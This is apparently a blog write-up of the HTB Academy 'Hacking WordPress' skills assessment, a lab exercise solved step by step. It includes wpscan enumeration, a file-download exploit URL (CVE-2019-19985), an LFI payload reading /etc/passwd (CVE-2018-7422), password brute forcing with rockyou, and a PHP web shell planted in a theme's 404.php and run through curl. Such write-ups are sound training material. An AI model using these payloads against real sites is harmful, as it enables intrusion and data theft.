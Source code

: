 ```yaml
---
title: 'HTB Academy: Hacking WordPress Module'
author: saramazal
date: 2024-11-05
categories: [HTB Academy]
tags: [HackTheBox Academy, cbbh, cpts, Skills Assessment, wpscan, wordpress]     # TAG names should always be lowercase
img_path: /images/htb-academy/
image:
  path: images/htb-academy/wp-cover.png
---
```


##  Skills Assessment
### Penetration Test Scenario:

You have been contracted to perform an external penetration test against the company INLANEFREIGHT that is hosting one of their main public-facing websites on WordPress.

Enumerate the target thoroughly using the skills learned in this module to find a variety of flags. Obtain shell access to the webserver to find the final flag.

## Questions:

1. Identify the WordPress version number.
2. Identify the WordPress theme in use.
3. Submit the contents of the flag file in the directory with directory listing enabled.
4. Identify the only non-admin WordPress user. (Format: `<first-name> <last-name>`)
5. Use a vulnerable plugin to download a file containing a flag value via an unauthenticated file download.
6. What is the version number of the plugin vulnerable to an LFI?
7. Use the LFI to identify a system user whose name starts with the letter “f”.
8. Obtain a shell on the system and submit the contents of the flag in the `/home/erika` directory.

## Answers:

For identifying the WordPress version number and theme, use one of these tools:

- Wappalyzer Extension
- View Page Source or DevTools
- nmap scan
- `wpscan —url http://<target_ip> —enumerate p`

For receiving results, add target IP to hosts:

```bash
sudo nano /etc/hosts
```

Add: `<target_ip> blog.inlanefreight.local`

Refresh your browser. Now you can find the WordPress version number and theme with Wappalyzer, View Page Source/DevTools, or use `wpscan`.

- **WordPress version number**: 5.1.6
- **WordPress theme in use**: Twenty Nineteen

In our `wpscan`, we can find a link:

`http://blog.inlanefreight.local/wp-content/uploads/`

You can open this link in the browser or use the terminal:

```bash
curl http://blog.inlanefreight.local/wp-content/uploads/upload_flag.txt | html2text
```

- **Flag**: HTB{d1sabl3_……………..!}

For finding users:

```bash
wpscan --url http://blog……/ --enumerate u
```

- **Non-admin user**: Cha**** Wig****

In our `wpscan`, we can find vulnerable plugins and search about them on Google.

One of the plugins:

- **WordPress Plugin**: Email Subscribers & Newsletters 4.2.2
- **CVE**: CVE-2019-19985

### Exploit Details

- **Exploit Title**: WordPress Plugin Email Subscribers & Newsletters 4.2.2 — Unauthenticated File Download
- **Google Dork**: “Stable tag” inurl:wp-content/plugins/email-subscribers/readme.txt
- **Date**: 2020–07–20
- **Exploit Author**: KBA@SOGETI_ESEC
- **Vendor Homepage**: [Email Subscribers](https://www.icegram.com/email-subscribers/)
- **Software Link**: [Plugin Archive](https://pluginarchive.com/wordpress/email-subscribers/v/4-2-2)
- **Version**: <= 4.2.2
- **Tested on**: Email Subscribers & Newsletters 4.2.2
- **CVE**: CVE-2019–19985

**Example Command**:

```bash
curl 'http://127.0.0.1/wp-admin/admin.php?page=download_report&report=users&status=all'
```

- **Flag from vulnerable plugin**: HTB{unauTH_……..!}

From our `wpscan`, we can search the exploit database for:

- **Vulnerable Plugin**: Site Editor
- **CVE ID**: CVE-2018-7422
- **Product**: Site Editor WordPress Plugin — [Site Editor](https://wordpress.org/plugins/site-editor/)
- **Vendor**: Site Editor
- **Tested version**: 1.1.1
- **CVE ID**: CVE-2018–7422

### Proof of Concept

```bash
http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

- **Version number of the plugin vulnerable to an LFI**: 1.1.1

**Use Proof of Concept**:

```bash
http://<$TARGET>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

- **System user**: frank.mclane

Obtain a shell on the system and submit the contents of the flag in the `/home/erika` directory:

```bash
wpscan --url http://blog.inlanefreight.local/ -U erika --passwords /usr/share/wordlists/rockyou.txt
```

Login with: `erika:010203`

Go to the theme editor. Select the Twenty Sixteen Theme. Add to the `404.php` page:

```php
system ($_GET['cmd']);
```

Save and check how it works:

```bash
curl -X GET 'http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=id'
curl -X GET 'http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=pwd'
curl -X GET 'http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=ls+/home/erika'
curl -X GET 'http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=cat+/home/erika/dxxxxxxx603c_flag.txt'

```

- **Final Flag**: HTB{w0rdPr355_………7}

  [![HTB Academy Badge](/images/htb-academy/htb-wp.png){: width="600" height="auto" .shadow }](https://academy.hackthebox.com/achievement/badge/e8bc07e8-0d0f-11ef-b18d-bea50ffe6cb4)

[Hacking WordPress Module](https://academy.hackthebox.com/course/preview/hacking-wordpress)

## Great! Happy Hacking!
